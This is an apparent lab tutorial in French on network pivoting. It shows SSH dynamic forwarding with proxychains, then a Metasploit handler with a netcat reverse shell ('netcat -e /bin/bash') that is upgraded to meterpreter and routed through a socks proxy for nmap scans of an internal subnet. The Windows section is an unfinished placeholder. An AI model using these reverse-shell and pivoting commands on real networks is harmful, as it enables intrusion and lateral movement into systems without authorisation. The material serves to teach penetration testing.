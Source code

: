 # Comment faire un pivot
## Introduction
Le but est de faire communiquer la machine kali avec la machine sur l'autre réseau par le biais du pivot.
Pour bien comprendre le pivot dans un réseau, on va y aller avec 3 machines en 2 parties, d'une part le pivot linux, puis le pivot Windows :
### Première partie
![Pic1](img/Pivot_1.PNG?raw=true)</br>
### Deuxième partie
![Pic2](img/Pivot_2.PNG?raw=true)</br>

## Première partie

### Pivot Proxychains & SSH
Sur l'attaquant :
```bash
# Redirection ssh, tout le traffic qui va sur 9050 est redirigé en ssh vers 10.0.0.10
# -f pour exécuter en tant que service
# -N pour ne pas exécuter de commande
# -D pour indiquer un port forwarding dynamique
$ ssh -f -N -D 9050 msfadmin@10.0.0.10

# Proxychain redirige tout le flux de la commande vers 9050 (son port par défaut dans /etc/proxychains.conf)
$ proxychains nmap 192.168.0.110 -p 135,139,445
```
![Pic3](img/Pivot_3.PNG?raw=true)</br>

### Pivot Meterpreter & Socks
Il faut avoir un shell déjà sur la machine, je vais en faire un avec netcat :
```bash
$ msfconsole
msf > use exploits/multi/handler
msf > set lhost 10.0.0.1
msf > run
```
```bash
$ sudo netcat -e /bin/bash 10.0.0.1 4444 
```
```bash
msf > background
msf > sessions
```
![Pic4](img/Pivot_4.PNG?raw=true)</br>
On transforme le shell en shell meterpreter :
```bash
msf > sessions -u 1
```
![Pic5](img/Pivot_5.PNG?raw=true)</br>
Nous allons maintenant mettre en place le proxy sock de meterpreter en arrière plan :
```bash
msf > route add 192.168.0.0/24 2
msf > use auxiliary/server/socks_proxy
msf > set srvport 9050
msf > set version 4a
msf > run -j
```
Dans une nouvelle fenetre, on peut alors taper du nmap :
```bash
$ proxychains nmap -p 135,139,445 192.168.0.110
```
![Pic6](img/Pivot_6.PNG?raw=true)</br>

## Deuxième partie
On commence par compromettre le Windows 7 pour avoir un accès administrateur :
```bash
$ bla bla
```
![Pic4](img/Pivot_X.PNG?raw=true)</br>